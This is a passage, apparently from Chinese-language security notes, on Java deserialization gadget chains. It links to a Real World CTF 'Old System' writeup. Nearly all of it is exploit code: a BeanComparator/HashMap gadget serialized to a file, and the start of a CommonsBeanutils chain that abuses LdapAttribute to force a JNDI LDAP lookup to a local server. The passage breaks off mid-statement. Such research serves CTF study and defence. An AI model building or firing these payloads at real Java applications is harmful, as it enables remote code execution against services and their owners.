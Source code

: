 ```java
        hashMap.put(treeMap2, "ccc");
        Field propertyField = BeanComparator.class.getDeclaredField("property");
        propertyField.setAccessible(true);
        propertyField.set(comparator, "attributeDefinition");
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.ser"));
        oos.writeObject(hashMap);
        oos.close();
    }
}
```





参考链接：

[Real World CTF 3rd Writeup | Old System (qq.com)](https://mp.weixin.qq.com/s/hXoUs4ZJgLHHaTvoyhwFxg)

https://y4er.com/posts/real-wolrd-ctf-old-system-new-getter-jndi-gadget/

## CB链无依赖CC链(适用于jdk8版本)

```java
package CB;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import javax.naming.CompositeName;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;
public class cb1cb {
    public static void setFieldValue(Object obj, String fieldName, Object
            value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        String ldapCtxUrl = "ldap://127.0.0.1:9999/";

        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));


        final BeanComparator comparator = new BeanComparator("attributeDefinition",
```